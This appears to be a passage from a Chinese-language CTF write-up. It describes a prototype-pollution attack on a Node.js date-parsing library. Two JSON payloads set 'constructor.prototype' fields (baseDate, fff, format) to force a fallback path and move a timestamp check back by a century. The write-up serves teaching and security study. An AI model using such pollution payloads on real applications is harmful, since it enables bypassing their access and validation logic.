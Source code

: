 触发catch的条件是前面try的createDate返回一个无效的日期，或者createDate本身被调用时法神错误，所以就要利用我们刚刚找到的两个注入点
 下面的这行代码表明了基于format的日期匹配不可能返回一个无效日期，因此返回无效日期只有 Fallback Auto Detection 能够做到

```
if (Number.isSafeInteger(d.getTime())) return d;
else continue;
12
```

从如下代码片段可知，基于format的日期匹配依赖于baseDate，format 的过程是在argTable上进行覆盖

```js
const dateObj = opts.baseDate
const _UTC = opts.UTC ? "UTC" : ""
let argTable = {
    "yyyy": dateObj[`get${_UTC}FullYear`](),
    "MM": dateObj[`get${_UTC}Month`]() + 1,
    "dd": dateObj[`get${_UTC}Date`](),
    "HH": dateObj[`get${_UTC}Hours`](),
    "mm": dateObj[`get${_UTC}Minutes`](),
    "ss": dateObj[`get${_UTC}Seconds`](),
    "fff": dateObj[`get${_UTC}Milliseconds`] ? dateObj[`get${_UTC}Milliseconds`]() : undefined // due to system architecture
}
```

因此污染baseDate为无效日期即可绕过 format 模式进入 Fallback Auto Detection
 `routes/info.js`的try中用的是config.js中的min_pulic_time，为`2019-07-09 00:00:00`，不带有毫秒，刚好能够触发fff的原型链污染，为fff指定为无效值即可

使用如下的 payload 可以触发catch

```js
{
  "contact":"1", "reason":"2",
  "constructor":{
    "prototype":{
      "baseDate":"aaa",
      "fff": "bbb"
    }
  }
}
```

触发catch后，达到了污染format的条件，但是createDate的参数变成了config.default.js中的min_public_time，为`2019-07-08T16:00:00.000Z`，因此可以构造format为`yy19-MM-ddTHH:mm:ss.fffZ`。然后基于format的日期匹配会返回`1920-07-08T16:00:00.000Z`的日期，已经将minTimestamp提早了近一个世纪了

最终payload

```js
{
  "contact":"a", "reason":"a",
  "constructor":{
    "prototype":{
      "format": "yy19-MM-ddTHH:mm:ss.fffZ",
      "baseDate":"aaa",
      "fff": "bbb"
    }
  }
}
```
